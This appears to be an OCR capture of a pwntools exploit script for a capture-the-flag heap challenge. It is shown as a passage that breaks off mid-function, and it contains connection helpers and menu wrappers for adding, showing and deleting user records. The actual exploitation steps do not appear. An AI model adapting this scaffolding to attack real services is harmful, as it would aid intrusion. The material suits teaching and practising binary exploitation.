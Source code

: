 ```py

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


gdbscript = '''
continue
'''.format(**locals())

io = None


io = start()

def add(idx, size, firstname, midname, lastname, age, bio, l=True):
    io.sendlineafter(b"5 re-age user\n", b"1")
    io.sendlineafter(b"index: \n", str(idx).encode())
    io.sendlineafter(b"Enter size (1032 minimum): \n", str(size).encode())
    if l:
        io.sendlineafter(b"Input firstname: \n", firstname)
        io.sendlineafter(b"Input middlename: \n", midname)
        io.sendlineafter(b"Input lastname: \n", lastname)
        io.sendlineafter(b"Input age: \n", str(age).encode())
        io.sendlineafter(b"Input bio: \n", bio)

    else:
        io.sendafter(b"Input firstname: \n", firstname)
        io.sendafter(b"Input middlename: \n", midname)
        io.sendafter(b"Input lastname: \n", lastname)
        io.sendafter(b"Input age: \n", str(age).encode())
        io.sendafter(b"Input bio: \n", bio)



def show(idx):
    io.sendlineafter(b"5 re-age user\n", b"2")
    io.sendlineafter(b"index: ", str(idx).encode())

def delete(idx):
    io.sendlineafter(b"5 re-age user\n", b"3")
    io.sendlineafter(b"index: ", str(idx).encode())

def edit(idx, firstname, midname, lastname, age, bio):
```